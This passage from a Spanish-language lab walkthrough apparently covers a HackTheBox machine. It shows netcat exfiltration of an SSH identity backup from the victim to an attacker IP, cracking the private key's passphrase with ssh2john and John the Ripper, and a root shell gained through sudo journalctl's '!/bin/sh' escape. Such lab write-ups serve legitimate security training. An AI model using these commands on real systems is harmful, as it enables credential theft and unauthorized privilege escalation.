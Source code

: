 1. En el equipo de atacante

    ```bash
    nc -nlvp 443 > comprimido.tgz
    ```

1. En el equipo victima

    ```bash
    nc 10.10.14.20 443 < backup-ssh-identity-files.tgz
    ```

Descomprimimos el archivo con el comando

```bash
7z l comprimido.tgz
7z x comprimido.tgz
7z l comprimido.tar
7z x comprimido.tar 
```

Hay la clave privado del usuario david pero esta protegida por contraseña. La tenemos que romper.

### ssh2john {-}

```bash
ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

La contraseña de la id_rsa a sido crackeada y ya nos podemos conectar con ssh

```bash
ssh -i id_rsa david@10.10.10.165 
```

### Escalada de privilegio para root {-}

```bash
ls -l
#Output
bin

cd bin/
cat server-stats.sh
```

Vemos en este fichero que sudo puede ejecutar **journalctl**

Vamos a la pagina de [gtfobins](gtfobins.github.io) y buscamos por jounalctl

El **gtfobins** dice que hay que lanzar jounalctl con sudo y en otra linea poner `!/bin/sh`

> [!] NOTA: cuando pone ! en otra linea quiere decir que hay que ejecutarlo en modo less. O sea hay que reducir la terminal para que se pueda introducir un nuevo commando. En este caso !/bin/sh

Ya estamos root y seguimos mas hack que nunca.



